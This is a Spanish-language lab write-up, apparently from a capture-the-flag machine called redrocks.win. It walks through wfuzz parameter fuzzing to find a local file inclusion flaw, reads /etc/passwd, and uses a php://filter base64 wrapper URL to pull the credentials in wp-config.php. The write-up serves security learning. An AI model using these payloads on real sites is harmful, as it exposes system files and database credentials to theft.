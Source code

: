 Descargamos el diccionario:

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/burp-parameter-names.txt
```

Luego usando el siguiente comando de WFUZZ podemos comprobar que realmente usa un LFI (Siempre se usa FUZZ como parámetro clave de prueba):

```
wfuzz -c -u 'http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test' -w burp-parameter-names.txt --hh 00
```

- Flag -c: Muestra la salida con colores para mejor visualización.
- Flag -u: Especifica la URL objetivo, donde la palabra clave FUZZ será reemplazada por cada valor de la wordlist.
- Flag -w: Indica el diccionario de palabras a usar. Wfuzz reemplazará FUZZ con cada palabra del mismo.
- Flag --hh 00: Excluye (oculta) las respuestas que tienen un cuerpo de respuesta de tamaño cero (0 bytes).

<img width="567" height="148" alt="imagen" src="https://github.com/user-attachments/assets/6ac284a4-6cd7-4eb7-9315-5d79b0b24f26" />

Podemos ver que al probar parámetros da distintos tipos de respuestas, probando que existe la vulnerabilidad. Para confirmarla del todo, listamos los usuarios del sistema (fichero /etc/passwd).

<img width="567" height="373" alt="imagen" src="https://github.com/user-attachments/assets/41d139ae-2078-4615-aa72-89315ea4cb1e" />

(Apuntamos la lista de usuarios ya que el usuario ippsec es un usuario peculiar en esta investigación ya que no es común del sistema).

## Extracción de Credenciales en wp-config.php {#extraccion-de-credenciales-en-wp-configphp}

Sin embargo, sabiendo que estamos con un sitio de Wordpress, lo suyo es probar la seguridad del wp-config.php que contiene las credenciales de la base de datos del sistema de la web. Para ello podemos usar la siguiente payload en forma de wrapper de PHP.

**(En el contexto de las vulnerabilidades de inclusión de archivos, un wrapper se refiere al protocolo o método utilizado para acceder o incluir un archivo. Los wrappers se utilizan a menudo en PHP u otros lenguajes del lado del servidor para ampliar las funciones de inclusión de archivos, permitiendo el uso de protocolos como HTTP, FTP y otros, además del sistema de archivos local.)**

```
http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=wp-config.php
```
<img width="567" height="123" alt="imagen" src="https://github.com/user-attachments/assets/4abc2af5-36ac-4521-bb66-3a0fab4ab7b7" />

Este wrapper de LFI nos dará el código fuente del fichero encodeado en Base 64, para decodearlo podemos usar CyberChef y la herramienta echo del sistema concatenando el comando base64 -d como hice yo.

```
echo cadenaencoded | base64 -d 
```
